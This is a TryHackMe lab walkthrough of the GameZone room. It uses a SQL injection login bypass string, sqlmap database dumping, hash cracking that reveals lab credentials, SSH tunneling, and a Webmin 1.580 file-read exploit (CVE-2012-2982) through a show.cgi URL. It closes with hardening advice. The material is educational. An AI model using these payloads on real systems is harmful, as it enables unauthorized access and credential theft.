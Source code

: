 ```yaml
---
date: '2025-02-02T00:35:49+05:30'
draft: false
title: 'GameZone: TryHackMe Walkthrough'
slug: gamezone-thm
tags: ["tryhackme", "sql-injection", "ssh-tunneling", "webmin", "metasploit"]
category: writeups
showtoc: true
summary: A walkthrough of the GameZone room on TryHackMe, featuring SQL injection, SSH tunneling, and Webmin exploitation
description: Learn how to exploit SQL injection vulnerabilities, use SSH tunneling to access restricted services, and leverage Webmin vulnerabilities for privilege escalation
---
```


# GameZone: TryHackMe Walkthrough

## Initial Enumeration

### Nmap Scan Results
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Game Zone
```

Key findings:
- Web application on port 80
- SSH service on port 22
- Ubuntu-based system

## Web Application Exploitation

### SQL Injection
1. Basic authentication bypass:
```sql
' or 1=1 -- -
```
- Input in username field
- Leave password blank

### SQLMap Enumeration

1. Capture login request in Burp Suite
2. Save request to file (req.txt)
3. Execute SQLMap:
```bash
sqlmap -r req.txt --dbms=mysql --dump
```

Results:
```sql
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                                | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```

### Password Cracking
Using John the Ripper:
```bash
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt --format=Raw-SHA256
```

## Initial Access

### SSH Access
Credentials obtained:
- Username: agent47
- Password: videogamer124

## Privilege Escalation

### Service Enumeration
Using `ss` to list socket connections:
```bash
ss -tulpn
Netid  State      Recv-Q Send-Q Local Address:Port
tcp    LISTEN     0      80     127.0.0.1:3306
tcp    LISTEN     0      128    *:10000
tcp    LISTEN     0      128    *:22
```

### SSH Tunneling
Forward local port to access restricted service:
```bash
ssh -L 10000:localhost:10000 agent47@10.10.173.247
```

### Webmin Exploitation

1. **Service Identification**
   - Webmin version 1.580 identified
   - Accessible via localhost:10000

2. **Vulnerability Research**
   - CVE-2012-2982
   - Webmin 1.580 '/file/show.cgi' RCE

3. **Exploitation Methods**
   - Direct file access:
     ```
     http://localhost:10000/file/show.cgi/root/root.txt
     ```
   - Metasploit module:
     - `exploit/unix/webapp/webmin_show_cgi_exec`

## Best Practices

1. **SQL Injection Prevention**
   - Use parameterized queries
   - Input validation
   - Least privilege database users

2. **Network Security**
   - Restrict service access
   - Implement proper firewall rules
   - Regular port auditing

3. **Service Hardening**
   - Keep services updated
   - Remove unnecessary services
   - Regular security patches

## Tools Used

1. **Enumeration**
   - Nmap
   - ss command
   - SQLMap

2. **Exploitation**
   - Burp Suite
   - John the Ripper
   - Metasploit Framework

3. **Post Exploitation**
   - SSH tunneling
   - Webmin exploitation
   - File system navigation

## Additional Notes

1. **SSH Tunneling Types**
   - Local (-L): YOU <-- CLIENT
   - Remote (-R): YOU --> CLIENT
   - Dynamic (-D): SOCKS proxy

2. **Port Forwarding Security**
   - Monitor forwarded ports
   - Use strict firewall rules
   - Implement connection timeouts

## References

1. [SQLMap Documentation](http://sqlmap.org/)
2. [SSH Tunneling Guide](https://www.ssh.com/ssh/tunneling/)
3. [Webmin CVE-2012-2982](https://www.exploit-db.com/exploits/21851)
4. [TryHackMe - GameZone](https://tryhackme.com/)
